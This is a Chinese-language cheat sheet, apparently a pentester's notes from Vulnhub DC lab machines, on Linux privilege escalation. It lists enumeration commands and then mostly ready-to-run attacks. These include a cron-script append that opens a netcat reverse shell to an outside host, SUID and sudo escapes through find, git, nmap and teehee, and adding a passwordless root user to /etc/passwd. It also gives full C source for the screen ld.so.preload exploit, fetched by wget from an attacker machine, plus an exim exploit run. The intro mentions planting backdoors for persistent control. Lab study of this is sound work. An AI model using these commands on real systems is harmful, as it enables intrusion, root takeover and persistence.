



# Linux

## 前言

提权本质：一方面是信息收集，另一方面是对内核漏洞的掌握情况

**为什么要提权** 当成功通过80或者443端口通过web服务渗透时，常常是www-data 。无法执行root 权限下的一下命令或者读取/root 下的重要文件。这个时候就需要提权，在root 权限下，还可以通过msfvenom生成其他后门文件或者一些隐藏后门。添加用户，开启其他端口等操作，达到权限持续控制。

提权思路：大概思路是通过信息搜集查找可利用的文件/脚本/软件/用户/内核漏洞/恶意劫持/特定平台漏洞/框架漏洞/组件/等，写入或执行恶意命令/脚本/shell/添加高权限用户，提权成功，然后进一步利用。

## 基础信息收集

### 内核，操作系统，设备信息

```
uname -a    打印所有可用的系统信息
uname -r    内核版本
uname -n    系统主机名。
uname -m    查看系统内核架构（64位/32位）
hostname    系统主机名
cat /proc/version    内核信息
cat /etc/*-release   分发信息
cat /etc/issue       分发信息
cat /proc/cpuinfo    CPU信息
cat /etc/lsb-release # Debian 
cat /etc/redhat-release # Redhat
ls /boot | grep vmlinuz-
```

### 计划任务

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```



### 交互式shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
```

### 有无明文存放用户密码

```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find , -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```

Vulnhub 上的靶机就体现在，通过邮件明文传输密码了，然后就可以通过ssh登陆了。进行新的信息搜集。

### 可提权SUID && GUID

suid命令提权查询：https://gtfobins.github.io/

```bash
sudo -l
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```

## 提权操作

### 内核漏洞提权

具体案例可参考DC-3内核提权

1.查看发行版以及内核版本

```bash
cat /etc/issue
cat /etc/*-release

lsb_release -a
uname -a
```

2.kali查找漏洞

```
searchsploit ubuntu 16.04 4.4.x
searchsploit linux 3.10 CentOS Linux 7
```

### CronJobs提权

案例可见DC-7的提权

* https://shng.fun/posts/2021-01-23-%E5%AD%A6%E4%B9%A0-Linux%E4%B8%AD%E5%B8%B8%E7%94%A8%E7%9A%84%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95.html#%E5%9B%9B-cronjobs%E6%8F%90%E6%9D%83

Cron Jobs 是 Linux 系统中的「定时任务」，常被用来安排那些需要周期性执行的命令，例如定期备份数据、定期清理缓存等功能，因为使用到 cron 工具（crontab），因此被称作 Cron Jobs。

CronJobs 作为系统管理员最常用的功能之一，本身是非常棒的一个工具，但如果「定时任务」被设定为以更高的用户权限运行（例如 root 用户），则可能会被黑客利用来提权。

案例：

```bash
echo "mkfifo /tmp/bqro; nc 192.168.141.134 5555 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
```

### SUID提权

suid全称是Set owner User ID up on execution。SUID 是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行【ls 查看时有 s 属性才支持 SUID】

常见的可用来提权的linux可执行文件如下：

```
Nmap, Vim, find, bash, more, less, nano, cp
```

查看可以suid 提权的可执行文件(查看拥有suid权限的命令)

```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```




#### find提权

案例可见DC1的提权

```bash
find aaa - exec netcat -lvp 5555 -e /bin/sh \ # 反弹
find . -exec /bin/sh \; # 直接提权
```

#### Git提权

案例可见DC2的提权

https://gtfobins.github.io/gtfobins/git/

```
sudo -l

sudo git -p help config
!/bin/sh
```

#### teehee提权

案例参考可见DC4

```bash
eehee --help
1.直接写个 root 权限用户
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
cat /etc/passwd | grep '/bin/bash'
su test
whoami
2.在 sudoers 里给 charles 所有权限
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
sudo -l
sudo su
```

#### screen提权

案例参考可见DC5

首先kali运行如下

```
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机

```bash
python -m SimpleHTTPServer 8080 # kali

# 靶机
cd /tmp
wget 10.30.0.81:8080/libhax.so;wget 10.30.0.81:8080/rootshell

# 运行poc
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

#### nmap提权

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
sudo -l  # nmap提权
# 提权思路： 将root权限bin/sh写入脚本插件，使用nmap运行脚本插件使用namp执行脚本，执行命令不会显示命令，建议使用python交互shell后更直观，提权成功
nmap -v

echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
whoami
```

#### exim4提权

具体案例参考DC-8

查看exim4版本号

```bash
/usr/sbin/exim4 --version # 4.89
searchsploit exim 4.89
searchsploit -m 46996 #注意在kali上把文件改为unix格式

vi 46996.sh
:!set ff=unix

python -m SimpleHTTPServer  8080 # kali
cd /tmp # 靶机在tmp目录下进行下载接受，防止其他位子没有权限
wget http://10.30.0.81:8080/46996.sh # 靶机
chmod +x 46996.sh
./46996.sh -m netcat
whoami
```

### 利用root无密码执行

简单来说，就是一个脚本，比如py,sh等或者是一个命令。这个文件可以以root身份运行，若在无密码的情况下执行的话，我们可以通过修改脚本内容/或者直接执行这个命令，利用命令来进行一些操作，来进行提权。

比如一个常见的：

* 写入一个root身份权限的用户进入/etc/passwd 文件中

具体案例可参考DC-4 teehee -a 将输入的内容追加到另一个文件中

```
sudo teehee -a /etc/passwd
```



## 参考文章

* https://wiki.xazlsec.com/project-9/doc-730/
* https://xz.aliyun.com/t/7924
* https://shng.fun/posts/2021-01-23-%E5%AD%A6%E4%B9%A0-Linux%E4%B8%AD%E5%B8%B8%E7%94%A8%E7%9A%84%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95.html
* https://www.freebuf.com/articles/web/280398.html
* https://www.hacking8.com/tiquan/other/Linux%E6%8F%90%E6%9D%83.html
